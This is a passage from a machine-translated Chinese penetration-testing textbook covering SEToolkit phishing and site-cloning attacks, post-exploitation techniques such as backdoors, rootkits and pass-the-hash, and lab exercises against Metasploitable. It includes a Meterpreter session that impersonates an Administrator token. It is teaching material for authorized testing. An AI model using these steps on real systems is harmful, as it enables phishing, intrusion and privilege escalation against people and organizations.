因为这是一个如此常见的策略，所以这里值得注意一下社会工程师工具包(SEToolkit)。在进行渗透测试的过程中，你可能没有机会使用它，因为社会工程，利用人类漏洞的过程，可能被排除在范围之外，但你应该知道它，因为它非常强大。一些企业可能不希望你测试他们的人的弱点，因为他们觉得他们通过使用培训和自动检查来控制这一点。这种范围限制不会让他们清楚地了解他们的企业有多脆弱，因为进入一个组织的主要媒介之一是通过在那里工作的人。存在有组织的对手，这是你在试图保护一个组织时可能遇到的绝大多数情况，他们正在寻找最容易的途径。这些并不是你可能会想到的高度技术性的途径。相反，它可能就像给目标发送一封电子邮件并让他们打开它一样简单。包含的附件可能包含宏病毒或受感染的 PDF，它们利用了 PDF reader 软件中的漏洞，或者它可能只是电子邮件作者能够让收件人打开的直接可执行文件。该可执行文件可能是伪装成其他东西(即木马)的恶意软件，或者它可能只是不伪装成其他东西的恶意软件。如果你只需要让那个人运行程序，为什么还要费心去假装什么呢？一旦程序已经运行，在大多数情况下做任何事情都为时已晚。

SEToolkit 通过自动创建您可以发送给访问网站和打开附件的人的电子邮件来利用这些人。使用 Metasploit 模块库，它将创建一个可以感染目标系统的附件，将附件添加到电子邮件中，然后提供一些电子邮件模板供您使用或允许您创建自己的模板。使用 Metasploit，您可以利用漏洞，并将其转换为适合交付给受害者的可执行文件。当该漏洞运行时，它会向您发送一个连接，这样您就可以通过后门进入目标系统。

使用 SEToolkit 的另一个用途是创建可用于测试水坑或驾车攻击的网站。您可以使用许多其他攻击来吸引人们访问这些网站，或者您可以简单地创建一个包含攻击模块的网站，并吸引用户访问该网站。你可以使用一封精心制作的电子邮件，承诺用户想要的东西。SEToolkit 提供了你需要的所有技术工具，但是它的一些社会工程方面可能需要来自你，因为你最了解你的目标。你应该知道什么能让他们访问一个他们一无所知的网站。

幸运的是，您不必从头开始创建一个完整的网站，尽管您可以这样做。SEToolkit 将克隆您指定的站点。您提供一个统一资源定位器(URL ), SEToolkit 将获取所有的 HTML 并创建一个包含您选择的任何攻击的站点。攻击可能是 Java 小程序，也可能是针对特定 Web 浏览器的已知利用漏洞攻击。同样，策划攻击将基于你对目标的了解。例如，如果您知道您的目标组织中的大多数用户都使用 Firefox，那么您可以利用 Firefox 漏洞将您的有效负载加载到系统中。一旦发生这种情况，你将控制你的目标，并可以提取数据，引入额外的恶意软件，或执行任何其他行动，你想。

为了进行基于网络的攻击，你必须有一个你的目标可以到达的系统。这意味着你很可能需要在网络内部，否则，如果你远程工作，你将需要在你自己的防火墙上打开漏洞，这样反向连接就可以回到你这里。为什么要反向连接？这是知道目标被渗透的最好方法。大多数防火墙，无论是个人防火墙还是企业防火墙，都信任来自网络内部的流量。这不是最明智的决定，但它节省了许多管理和维护的麻烦。你也不能保证你会有任何直接到达目标的希望，所以你必须依靠他们给你发回信息。这意味着您需要知道您的公共 IP 地址，这样您就可以将它硬编码到您的包中。如果您碰巧有一个 DNS 名称，您可以使用它，但是 IP 地址可能更容易、更可靠。

SEToolkit 有很多功能，如图 5-8 所示，它显示了打开菜单。它使用基于文本的菜单，引导您完成创建您感兴趣的任何攻击类型的所有步骤。如果你看菜单列表，你可以想象你可能会把时间花在列表的最上面，尽管如果你喜欢，你当然可以浏览演职员表。

```
              ________________________
              __  ___/__  ____/__  __/
              _____ \__  __/  __  /
              ____/ /_  /___  _  /
              /____/ /_____/  /_/     

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
[---]                 Version: 6.5.8                   [---]
[---]               Codename: 'Mr. Robot'              [---]
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]

        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

     Join us on irc.freenode.net in channel #setoolkit

   The Social-Engineer Toolkit is a product of TrustedSec.

             Visit: https://www.trustedsec.com

Select from the menu:

   1) Social-Engineering Attacks
   2) Fast-Track Penetration Testing
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

```

出于我们的目的，我们将进行社会工程攻击，因此我们将利用第一个菜单选项。输入`1`将我们带到下一个基于文本的菜单，你可以在上面看到。这是 SEToolkit 可以为您自动化的不同社会工程攻击的列表。看到这里列出了如此多的攻击类型，您可能会感到惊讶，但实际上我们才刚刚开始。开发人员继续增加他们支持的攻击媒介的数量。继续寻找新的攻击媒介。

整个过程是自动化的，你几乎不用做什么。如果您选择鱼叉式网络钓鱼攻击，SEToolkit 将使用您选择的攻击为您创建电子邮件。如果您提供了可以发送电子邮件的 SMTP 服务器，它将为您发送电子邮件。你必须注意如何发送电子邮件，以及从哪里发送。一些互联网服务提供商将阻止标准的 SMTP 连接或重定向到他们自己的服务器，这些可能会阻止你正在尝试做的事情。如果您在运行 SEToolkit 的系统上有 SMTP 服务器，那么您可能会比较幸运。基本的 SMTP 服务器并不难设置。

如果你选择一个网站攻击，SEToolkit 会引导你使用类似于站点克隆攻击的方法，从一个站点下载所有的 HTML 并保存在你的系统中，它的功能就像一个网络服务器。您将再次选择想要使用的攻击类型。一旦有了攻击类型并创建了站点克隆，就可以开始发送 URL 了，如前所述。这里值得注意的是，无论您使用哪种攻击，SEToolkit 都会利用 Metasploit 提供的漏洞来创建攻击。本质上，SEToolkit 是一种以有趣的方式自动化 Metasploit 的一些漏洞利用功能的方法，因此您可以在进行渗透测试时非常快速地部署它们。

由于用户是非常常见的攻击点，您应该尝试让您的客户允许您进行一些社会工程攻击，以了解他们有多脆弱。即使他们在内部进行网络钓鱼测试，网络钓鱼测试电子邮件可能看起来是一样的，并且 word 可能会在公司内部传播，以了解从内部测试中应该寻找什么。仅仅因为用户没有被钓鱼测试邮件欺骗并不一定意味着他们不会受到社会工程攻击。

## 后剥削

一旦您利用了该系统，接下来的步骤取决于您的项目范围。如前所述，您可以查看获取用户名及其密码的列表，然后在一个单独的系统上破解密码，这样您就有时间在不被注意的情况下工作。您可以安装一个后门程序，允许您在最初的攻击之外访问系统。如果系统仍未打补丁，您可以继续利用该系统，并在任何需要的时候进行进一步的活动。

您可以将该系统用作网络中的安全港，以便继续通过其他系统访问它们。这意味着您可以将它用作一个临时服务器，将您需要在其他系统上继续工作的文件复制到其中。有几种方法来掩盖你的藏身之处和额外的程序使用单独的和隐藏的分区或安装 rootkits。rootkit 是一组旨在隐藏恶意软件存在的程序。它可以防止管理员看到程序运行或隐藏网络连接的存在。

与客户的接触可能会限制你能做什么和应该做什么。后门和 rootkits 是您留下的工件，一些公司不想留下额外的软件。一如既往，沟通将是关键。

您可能无法始终获得系统的根级别或管理权限。您可能希望在攻击后采取的一个措施是运行本地攻击来获得管理访问权限。Metasploit 还有一些模块可用于尝试获得系统级或管理级访问权限。其中一个是`getsystem`，可在 Meterpreter 外壳中获得。`getsystem`将尝试获得系统级权限，最高权限。如果这不起作用，可能有其他方法成为另一个用户。您还可以利用一个模块来模拟另一个用户，并继承他们的所有权限和权利。这个模块是匿名的，你可以在这里看到它的用法:

```
meterpreter > use incognito
Loading extension incognito...success.

meterpreter > list_tokens -u

Delegation Tokens Available
========================================
WUBBLE-C765F2\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter > impersonate_token WUBBLE-C765F2\\Administrator
[+] Delegation token available
[+] Successfully impersonated user WUBBLE-C765F2\Administrator

meterpreter > getuid
Server username: WUBBLE-C765F2\Administrator

```

与其他模块一样，您必须使用它来导入功能。一旦模块被加载，您就可以访问`list_tokens`，这将为您提供系统上所有可用的认证令牌。然后选择您想要模拟的用户，并使用`impersonate_token`成为该用户。使用`getuid` Meterpreter 命令，您可以看到 Meterpreter 当前在本地系统上作为用户管理员运行。

拥有管理权限后，如果您还没有管理权限，可以安装其他软件、修改事件日志、添加用户和更改密码。获得某种级别的管理权限也将使您有权查看其他可用的身份验证令牌。这可能包括某种级别的凭据，可用于获得对目标网络中其他系统的身份验证访问。这种横向移动可能会让您接触到更敏感的材料，您可以使用这些材料作为攻击者可以获得这些材料的证据。当 Windows 系统相互通信时，它们使用加密哈希来回发送密码。这种加密哈希有时可以用来访问网络中的其他系统，而实际上并不知道密码。这种技术称为传递散列，因为您实际上是将加密散列传递给另一个系统，作为一种身份验证的方式。

Windows 系统也可以使用 Kerberos 票证，这是从 Kerberos 基础结构提供给客户机系统的对时间敏感的数据。Kerberos 是作为一个更大的系统的一部分在 MIT 开发的，但是已经在 Windows 中使用了十几年。Kerberos 身份验证需要使用 Windows Server，这在企业网络中很常见。这些 Kerberos 票据应该不受哈希类型策略的影响，但是它们已经被用来授权未授权的访问。较新的 Windows Server 实现正在利用各种策略使哈希技术的传递变得相当困难。

在 Linux 系统上，您可能能够利用服务器和客户机之间或者服务器和其他服务器之间的其他可信系统关系。用于加密命令行或终端访问的安全外壳协议利用加密密钥进行加密，但这些密钥在某些情况下也可用于身份验证。一些系统管理员可能会配置他们的系统，以允许通过使用密钥进行身份验证来快速访问其他系统，而无需密码。旧的协议有时会使用系统级信任，尽管这些协议不再广泛使用，因为它们容易受到这种未经身份验证的访问。

在获取额外凭证、添加后门、获取敏感信息和掩盖踪迹之间，您有许多可以采取的利用后步骤。一如既往，确保你着眼于什么对你的客户最好。开始尝试征服尽可能多的系统可能很有诱惑力，但是你必须牢记你的目标:向你的客户提供信息，他们可以用这些信息来加固他们的系统以抵御攻击。你也有有限的时间来执行你的测试，所以这变成了一个优先级的问题。确保你采取的任何剥削后的行动都在范围之内，并且符合你的客户的最大利益。

## 摘要

剥削真的是你渗透测试的肉。这是您展示您的目标有多脆弱的地方，因为他们可能不会非常认真地对待来自扫描仪的漏洞列表。即使您已经审查了列表并提出了您知道易受攻击的列表，对于一些人来说，也很难真正认识到对其业务的威胁，这就是为什么经常需要实际显示系统的一些渗透的原因之一。这证明有人可以进入他们的系统并控制信息资源。面对这样的证据，高管们很难认为漏洞不会带来实际的业务风险。这并不能保证他们会做他们需要做的事情来解决问题，但至少他们不能说风险不存在。

当您进行渗透测试时，Metasploit 将会是您最好的朋友之一。一些系统将比其他系统更容易受到攻击，但是 Metasploit 团队在跟上最新漏洞方面做得非常好，正如您通过查看`exploit-db.com`上可用的漏洞所看到的。您真的想很好地理解漏洞利用是如何工作的，更重要的是，程序是如何工作的，这样您就可以了解在您的程序中发生了什么。这将让您更好地了解系统的漏洞在哪里以及如何存在。不过，Metasploit 不仅仅是为了利用漏洞。它还有许多其他功能，包括用于在目标网络上进行服务扫描。此外，如果您了解 Ruby，您可以编写自己的模块来插入 Metasploit，以满足您的任何需求。Metasploit 具有很高的可扩展性，并且很容易扩展。

社会工程攻击可能是任何组织最关心的问题。用户打开电子邮件并访问可能被感染的网站会给组织带来很多漏洞，这些都是非常常见的攻击媒介。如果您可以说服您的组织或客户允许您进行社会工程攻击，SEToolkit(它在底层使用 Metasploit)是一个非常强大的工具，它使社会工程攻击的技术方面变得非常容易。

Metasploit 是一个非常强大的漏洞利用框架，它是一个很好的起点，不仅可以利用漏洞，还可以在利用系统后尝试获得系统级访问权限。虽然您可以快速使用 Metasploit 或另一个框架，但是需要时间来获得足够的经验，以超越非常基本的利用。

## 练习

1.  下载一份可升级的 Linux，并将其安装到您的虚拟机软件中。从 Rapid7 或通过使用 Kali Linux 获取 Metasploit 的副本。
2.  如果可能的话，购买一份 Windows 95，并将其安装到您的虚拟机软件中。
3.  对您的目标运行扫描，看看您能找到哪些漏洞。
4.  尝试使用 unreal-irc 漏洞利用 Metasploitable。
5.  尝试使用 metasplogiable 易受攻击的 FTP 漏洞来利用 metasplogiable。
6.  使用 Metasploit 扫描本地网络中的 SSL、SSH 和 SMB 服务器。查看是否可以利用任何已识别的漏洞来控制目标计算机。
7.  利用 SEToolkit 创建一封恶意电子邮件，并将其发送到易受攻击的端点虚拟机之一。看看有没有用。
8.  利用 SEToolkit 克隆一个网站，并向克隆的站点注入攻击，看看是否可以使用受损的站点感染一个易受攻击的端点虚拟机。